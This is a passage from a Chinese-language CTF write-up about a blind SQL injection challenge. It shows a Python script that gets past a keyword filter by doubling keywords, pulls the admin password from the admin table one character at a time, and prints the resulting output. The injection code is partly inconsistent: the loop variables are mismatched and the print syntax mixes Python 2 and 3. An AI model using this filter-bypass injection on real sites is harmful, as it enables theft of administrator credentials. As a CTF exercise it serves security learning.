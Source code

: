      2. 使用盲注的方法

        编写python脚本

        ```python
        # -*- coding: UTF-8 -*-
        import requests
        
        
        def get_db():
            url = "http://cms.nuptzj.cn/so.php"
            header = {
                'User-Agent': 'Xlcteam Browser',
                'Host': 'cms.nuptzj.cn',
            }
            payload1 = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
            result = ""
            for j in range(1, 35):
                for i in payload1:
                    char = str(ord(i))
                    num = str(j)
                    payload = '1/**/aANDnd/**/exists(seSELECTlect/**/*/**/fFROMrom/**/admADMINin/**/where/**/oORrd(substring(userpPASSass/**/frFROMom/**/{0}/**/foORr/**/1))>{1})'.format(num,char)
                    # payload = '1/*x*/anANDd/*x*/exists(seleSELECTct/*x*/*/*x*/frFROMom/*x*/admiADMINn/*x*/WHERE/*x*/oORrd(substring(userpaspasss/*x*/froFROMm/*x*/{0}/*a*/FOorR/*a*/1))>{1})'.format(num, char)
                    data = {
                            "soid":payload
                    }
                    response = requests.post(url=url,headers=header,data=data)
                    text = response.text
                    print text
                    # text = str(text)
                    result_len = len(text)
                    if(result_len < 430):
                        result += chr(int(char))
                        break
            print(result)
        
        get_db()
        ```

        得到结果：

        > 1020117099010701140117011001160117

     3. 使用sqlmap+tamper

        - [ ] 待实现
        - **nonrecursivereplacement.py**  双重查询语句绕过
